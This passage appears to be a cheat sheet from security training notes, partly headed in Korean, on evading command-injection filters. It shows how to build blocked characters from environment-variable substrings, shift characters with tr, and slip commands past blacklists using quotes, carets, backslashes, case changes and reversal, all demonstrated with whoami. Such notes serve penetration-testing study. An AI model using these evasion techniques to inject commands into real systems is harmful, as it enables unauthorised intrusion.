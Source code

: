 /usr/local/bin:/usr/bin:/bin:/usr/games
```
```
$ echo ${PATH:0:1}

/
```
```
$ echo ${LS_COLORS:10:1}

;
```

### Windows
```
C:\htb> echo %HOMEPATH:~6,-11%

\
```
```
PS C:\htb> $env:HOMEPATH[0]

\
```

#### PowerShell
```Get-ChildItem Env:```

### Character Shifting
```
$ man ascii     # \ is on 92, before it is [ on 91
$ echo $(tr '!-}' '"-~'<<<[)

\
```

## Blacklisted Commands 우회

### Linux & Windows
```$ w'h'o'am'i```<br/>
```$ w"h"o"am"i```

### Linux Only
```who$@ami```<br/>
```w\ho\am\i```

### Windows Only
```C:\htb> who^ami```

## Command Obfuscation

### Case Manipulation
```PS C:\htb> WhOaMi```<br/>
```$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")```<br/>
```$(a="WhOaMi";printf %s "${a,,}")```

### Reversed Commands
```
$ echo 'whoami' | rev
imaohw
